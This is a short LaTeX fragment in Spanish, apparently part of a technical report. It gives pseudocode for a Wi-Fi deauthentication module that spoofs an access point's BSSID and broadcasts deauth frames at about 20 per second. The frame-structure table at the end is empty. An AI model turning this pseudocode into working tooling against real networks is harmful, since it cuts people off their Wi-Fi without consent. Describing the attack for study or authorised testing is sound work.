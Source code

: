 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Módulo Deauth: Pseudocódigo}

\begin{lstlisting}
funcion iniciar_deauth(config):
    log_serial("Iniciando Deauthentication contra BSSID " +
               formato_mac(config.bssid_objetivo))

    si NO config.bssid_validado:
        log_serial("ERROR: BSSID no validado, abortando")
        retornar ERROR_VALIDACION

    cambiar_modo_wifi_a_promiscuo()
    fijar_canal(config.canal)

    tiempo_fin = millis() + config.duracion_deauth * 1000
    contador = 0

    mientras millis() < tiempo_fin y no hay_comando_stop():
        # Construir frame deauth con BSSID legitimo como origen
        frame = construir_deauth(
            destino = FF:FF:FF:FF:FF:FF,           # broadcast a la red
            origen  = config.bssid_objetivo,        # suplantando AP
            bssid   = config.bssid_objetivo,
            razon   = 7                             # "Class 3 frame"
        )

        emitir_frame(frame)
        contador = contador + 1
        delay_milisegundos(50)  # ~20 deauths por segundo

    log_serial("Deauthentication finalizado, frames emitidos: " + contador)
    retornar contador
\end{lstlisting}

\subsubsection{Estructura de un frame deauth}

\begin{datatable}{L{4cm} L{2cm} L{9.3cm}}{Campo & Bytes & Valor}
\end{datatable}
\end{document}
